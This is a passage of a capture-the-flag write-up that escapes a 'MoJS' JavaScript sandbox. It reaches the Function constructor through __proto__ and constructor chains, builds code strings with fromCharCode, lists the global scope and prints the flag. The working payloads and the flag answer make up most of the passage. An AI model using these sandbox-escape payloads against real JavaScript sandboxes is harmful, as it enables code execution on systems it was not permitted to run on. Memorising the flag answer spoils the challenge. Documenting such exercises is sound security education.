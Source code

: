 ```
MoJS> result=help+0;
"function () { return execute.toString(); }0"
MoJS>
```

Now we need to put all together. Let's do it, step by step:

```
MoJS> __proto__=constructor(help+0); // string literal in scope
"undefined"
MoJS> __proto__=constructor; // String "class"
"function String() { [native code] }"
MoJS> result=fromCharCode; // we can access its methods :)
"function fromCharCode() { [native code] }"
MoJS> result=constructor; // String's constructor is Function again
"function Function() { [native code] }"
MoJS> result=constructor(fromCharCode(120))(0); // Function('x')(0) 
"x is not defined"
"function Function() { [native code] }"
MoJS> 
```

And since we have code execution, we can try checking the global scope `return Object.keys(this)`:

```
MoJS> __proto__=constructor(help+0);__proto__=constructor;b=fromCharCode;result=constructor(b(114)+b(101)+b(116)+b(117)+b(114)+b(110)+b(32)+b(79)+b(98)+b(106)+b(101)+b(99)+b(116)+b(46)+b(107)+b(101)+b(121)+b(115)+b(40)+b(116)+b(104)+b(105)+b(115)+b(41))(0);
"execute,scope,fl4g"
MoJS>
```

Uooh! Easy peasy! We got flag `return fl4g`:

```
MoJS> __proto__=constructor(help+0);__proto__=constructor;b=fromCharCode;result=constructor(b(114)+b(101)+b(116)+b(117)+b(114)+b(110)+b(32)+b(102)+b(108)+b(52)+b(103))(0);
"nn6ed{js_m3t4pr0gamming_sk1lls_ftw!}"
MoJS>
```

#### nn6ed{js_m3t4pr0gamming_sk1lls_ftw!}
